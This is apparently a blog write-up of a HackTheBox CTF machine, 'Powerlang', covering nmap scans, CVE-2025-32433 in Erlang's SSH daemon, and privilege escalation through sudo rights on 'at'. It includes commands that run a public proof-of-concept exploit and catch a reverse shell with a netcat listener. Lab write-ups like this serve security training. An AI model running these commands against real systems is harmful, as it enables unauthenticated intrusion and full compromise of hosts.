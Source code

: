 ```yaml
---
layout: post
title: "Powerlang - CTF Writeup of Global Skills Cyber Benchmark 2025"
date: 2025-06-03
permalink: /blogs/powerlang-business-ctf-25.html
---
```


This blog was supposed as all of writeups that whether I've completely or partially done during the CTF challenge of HackTheBox. It was Global Skills Cyber Benchmark 2025 (previously HTB Business CTF): Operation Blackout, which I participated with my colleagues in a team.

I wish that I could re-solve CTF tasks again, especially in the after party. Due to another projects and time constraints, I can only share one write-up from the previous CTF.

---

# Fullpwn

This challenge category is based on the vulnerable HTB machines. All vulnerabilities of these challenges are based upon the novel CVE attacks and common misconfigurations that often exist, which causes various severe cyber attacks. This requires a bit knowledge of using such exploits and some knowledge of OS privilege escalations.

The challenge requires adding the machine's IP address into the virtual host, which often located under the `/etc/hosts`, before starting of this challenge. 

```
$ echo '<fullpwn-ip-address>\t fullpwn.htb\t subdomain.fullpwn.htb' | sudo tee -a /etc/hosts
```

Once it's done, we can launch the attacking network by running `openvpn` against the given VPN from the challenge. 

## Powerlang

### Nmap reconnaissance

- Scan for the open ports (`nmap 10.129.234.54`)
    
    ```
    Nmap scan report for powerlang.htb (10.129.234.54)
    Host is up (0.031s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT     STATE SERVICE
    80/tcp   open  http
    2222/tcp open  EtherNetIP-1
    ```
    - Only two ports are open (80 and 2222)

- Scan the detailed information for open ports (`sudo nmap -p 80,2222 -sCV -A 10.129.234.54`)
    
    ```
    Nmap scan report for powerlang.htb (10.129.234.54)
    Host is up (0.034s latency).
    
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.58
    |_http-title: Powerlang - Future of Telecommunication
    |_http-server-header: Apache/2.4.58 (Ubuntu)
    2222/tcp open  ssh     (protocol 2.0)
    | fingerprint-strings: 
    |   NULL: 
    |_    SSH-2.0-Erlang/5.2.9
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port2222-TCP:V=7.95%I=7%D=5/29%Time=683810FB%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,16,"SSH-2\.0-Erlang/5\.2\.9\r\n");
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose|router
    Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
    OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
    OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
    Network Distance: 2 hops
    Service Info: Host: 127.0.1.1
    
    TRACEROUTE (using port 443/tcp)
    HOP RTT      ADDRESS
    1   29.67 ms 10.10.14.1
    2   30.78 ms powerlang.htb (10.129.234.54)
    ```
    - Port 80: Basic HTTP
    - Port 2222: Erlang SSH v.5.2.9

## Enumeration

### Service enumeration

- HTTP (not much to tell)
    ![](/assets/bizctf25-blackout/powerlang-web-ui.png)

- Erlang v5.2.9 has a CVE-2025-32433

### CVE-2025-32433

According to the several notes that I’ve read, the Erlang/OTP (Open Telecom Platform) is a type of runtime system library that runs another type of SSH system, using Erlang as their programming language. Prior to versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.0, as well as version Erlang 5.2.9 that the target is running, is affected by **CVE-2025-32433**, which the threat actor may be able to perform **unauthenticated remote code execution** (RCE). This vulnerability was caused by the flaw in SSH daemon due to the improper handling of their protocol messages, which allows the sending of protocol messages before authentication is completed.

The impact was significant due to the critical severity. Not only the threat actors are able to obtain arbitrary RCE, but also might be potential to a complete system compromise, including unauthorized access to sensitive data, manipulation of system resources by third parties, or denial-of-service (DoS) attacks.

## Initial foothold

### Running the exploit

This [blog](https://platformsecurity.com/blog/CVE-2025-32433-poc) explains how the writer generates the PoC exploit of CVE-2025-32433 using AI. Since there are some PoC scripts on GitHub, I found another PoC that enables us to pass the attacker’s IP address and port listener to the script. To begin, we’ll start by cloning the repository and identify on how do we run the Python exploit script.

```bash
$ git clone https://github.com/MrDreamReal/CVE-2025-32433; cd CVE-2025-32433

$ python exploit.py -h
```

![](/assets/bizctf25-blackout/exploit-script.png)

Now, we can set up our Netcat listener based on our attacker’s IP address (or VPS) and the port that in expectation, we can obtain the reverse shell through the target by providing the target’s IP address and the Erlang/OTP SSH port to the exploit script.

```bash
# Start in a different terminal, which is on the left-side
$ nc -lvnp 8655

# Launch the exploit as on the right-side of the terminal
$ python exploit.py -t 10.129.234.54 -p 2222 --lhost 10.10.14.65 --lport 8655
```

![](/assets/bizctf25-blackout/running-the-script.png)

## Privilege escalation

### Abusing Sudo rights

After we obtained the `user.txt` flag, we can determine if the user `it-operator` has any Sudo privileges by typing `sudo -l`

![](/assets/bizctf25-blackout/sudo--l.png)

Since the current user has granted root-level permissions to run `at` command, we can identify this using GTFOBins.

![](/assets/bizctf25-blackout/gtfobins-at.png)

Before we can copy-paste and run the command, we need to spawn another bash shell, due to the current shell is not yet interactive. Otherwise, we couldn’t obtain the shell as root, thus the command hangs until we exit from the reverse shell.

```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

Once we spawn another Bash shell, we can copy-paste the `at` command to escalate privileges.
![](/assets/bizctf25-blackout/sudo-at-abuse.png)

# Appendix

## Sources

- [GitHub Security Advisories](https://github.com/erlang/otp/security/advisories/GHSA-37cp-fgq5-7wc2)
- [NIST of CVE-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433)
    - [Related Blogs](https://platformsecurity.com/blog/CVE-2025-32433-poc)
        - [Script PoC](https://github.com/ProDefense/CVE-2025-32433/tree/main?tab=readme-ov-file)
    - [Script PoC for Listener](https://github.com/MrDreamReal/CVE-2025-32433)